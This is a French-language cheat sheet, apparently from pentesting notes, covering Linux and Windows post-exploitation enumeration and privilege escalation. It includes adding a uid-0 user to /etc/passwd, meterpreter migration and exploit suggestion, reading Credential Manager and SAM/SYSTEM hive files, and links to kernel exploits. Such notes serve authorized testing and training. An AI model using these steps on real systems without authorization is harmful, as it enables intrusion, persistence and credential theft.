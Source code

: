 # Enumération sous Linux

## Shell ergonomique
Shell de base :
```bash
$ python -c "import pty;pty.spawn('/bin/sh')"
```
Shell full interactif :
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
# faire un Ctrl + Z
$ stty raw -echo
$ fg
```

### Voir les droits de l'utilisateur courant 
```bash
$ sudo -l
```
Si nous avons le droit d'executer un binaire avec les droits roots, regarder sur GTFOBin :
https://gtfobins.github.io/

### Trouver des fichiers avec la permission SUID ou SGID
```bash
$ find / -perm -g=s -type f 2>/dev/null
$ find / -perm -u=s -type f 2>/dev/null
```

### Trouver des dossiers avec le droit d'écrire ou d'executer
```bash
$ find / -writable -type d 2>/dev/null
$ find / -perm -o w -type d 2>/dev/null
$ find / -perm -o x -type d 2>/dev/null
``` 

### Lister les processus qui tournent
```bash
$ ps aux
```

### Lister les port ouverts
```bash
$ netstat -anop
```

### Créer un utilisateur
Faire un user dans /etc/passwd, sachant que le format est : **{username}:{resultatcommandecidessous}:0:0:root:/bin/bash**
```bash
$ openssl passwd -1 -salt {username} {password}
```

### Binaire pour énumération :
Avec LinEnum :</br>
https://github.com/rebootuser/LinEnum</br>
Avec LinPeas :</br>
lien</br>
Avec Linux-Priv-Checker :</br>
https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123

### DirtyCow (suivant la version du linux)
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

### Kernel exploits (suivant la version du noyau)
https://github.com/xairy/kernel-exploits
https://github.com/SecWiki/linux-kernel-exploits

### Checker si y'a moyen de faire une escalation
https://github.com/pentestmonkey/unix-privesc-check

### Linux privilege escalation guide
http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Enumération sous windows

## Checker les logiciels
On vérifie les programmes d'installés, des creds sont peut être dans les fichiers de configurations..
```bash
> dir C:\Program File\
```

## Informations systèmes avec meterpreter
```bash
meterpreter > sysinfo
```
Penser a migrer le processus en 64 bits si il est en 32 :
```bash
meterpreter > ps
meterpreter > migrate {PID}
```

## Sous meterpreter, faire un check des exploits disponibles 
```bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

## Living Off the Land (LOLBINS)
https://github.com/LOLBAS-Project/LOLBAS

## Quel est l'OS et l'architecture ?
```bash
> systeminfo
```

## Qui suis-je ?
```bash
> whoami
```

## Quels sont mes privilèges ?
```bash
> whoami /priv
```

## Quels autres utilisateurs sont connectés ?
```bash
> qwinsta
```

## Quels sont les groupes sur le système ?
```bash
> net localgroup
```

## Qui appartient au groupe Administrators ?
```bash
> net localgroup Administrators
```

## Des données dans le Crediential Manager ?
```bash
> cmdkey /list
> dir C:\Users\username\AppData\Local\Microsoft\Credentials\
> dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

## Accès à la base SAM et aux fichiers systèmes ?
```bash
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

## Quels sont les logiciels installés ?
```bash
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE
Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name*
```

## Est-ce que des dossiers ont des permissions trop larges ?
```bash
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}} 
```

## Checker les fichiers et dossiers disponibles en écriture
On test via le script accesschk (de sysinternals), mais il faut l'upload sur la machine distante.
```bash
accesschk.exe -qwsu "Everyone" *
accesschk.exe -qwsu "Authenticated Users" *
accesschk.exe -qwsu "Users" *
```

## Quels sont les processus/services en cours d'utilisation ?
```bash
tasklist /svc
tasklist /v
net start
sc query
```

## Quels sont les tâches planifiées ?
```bash
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
```

## Qu'est-ce qui est lancé au démarrage ?
```bash
wmic startup get caption,command
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"
```